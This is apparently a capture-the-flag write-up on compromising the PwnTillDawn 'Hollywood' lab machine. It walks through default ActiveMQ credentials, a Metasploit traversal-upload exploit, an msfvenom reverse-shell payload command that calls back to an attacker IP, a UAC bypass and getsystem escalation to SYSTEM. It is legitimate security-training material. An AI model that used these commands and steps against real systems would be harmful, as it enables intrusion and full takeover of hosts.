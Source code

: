 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143771170-b81a10a3-ee70-4748-9d22-a333f4934b5f.png)<br><br>

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
![image](https://user-images.githubusercontent.com/67085453/143771194-f7c03df2-0b7d-423d-b38b-0274a88dbb23.png)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
![image](https://user-images.githubusercontent.com/67085453/143771198-a5910e2c-4eb6-4ea6-8df5-d4113b33f42e.png)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
![image](https://user-images.githubusercontent.com/67085453/143771202-66596cba-e76d-4bfd-a775-823b50e39e77.png)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
![image](https://user-images.githubusercontent.com/67085453/143771208-19a45234-1010-4920-9086-18e4e135cb26.png)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
![image](https://user-images.githubusercontent.com/67085453/143771218-f4d9d7bf-0fb8-4199-90b9-0281d43289bc.png)<br>

On the admin dashboard, the version of activemq running on the taret is `5.11.1`. We performed a quick google to find any known exploit.<br>
![image](https://user-images.githubusercontent.com/67085453/143771230-8430ca4d-2bf9-45d1-bb9e-bbbe5a968b57.png)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
![image](https://user-images.githubusercontent.com/67085453/143771368-bc57ac26-72a0-4f4e-b982-31ca164bcce7.png)<br>

Load this module into `msfconsole` using `use windows/http/apache_activemq_traversal_upload`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
![image](https://user-images.githubusercontent.com/67085453/143771382-28b2af4e-35e5-4a15-8943-320554dfcb98.png)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771399-c81cb79d-42f1-4581-92fb-5e861807d80f.png)<br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
![image](https://user-images.githubusercontent.com/67085453/143771410-6614f216-ceec-4ae4-9e1e-58a4c030113a.png)<br>

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771419-56228f2b-f9e5-4c66-8e57-70a71dc04142.png)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
![image](https://user-images.githubusercontent.com/67085453/143771432-c57fcd1c-60ce-43ea-b241-89537af6b48a.png)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
![image](https://user-images.githubusercontent.com/67085453/143771442-baefc788-52c1-4ed2-81e5-76ffe38ea966.png)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
![image](https://user-images.githubusercontent.com/67085453/143771472-beff3526-d40a-4072-badd-7653a1c0e897.png)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` through the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771478-9e61baa0-5704-416a-8d9f-bb14ee0c0963.png)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
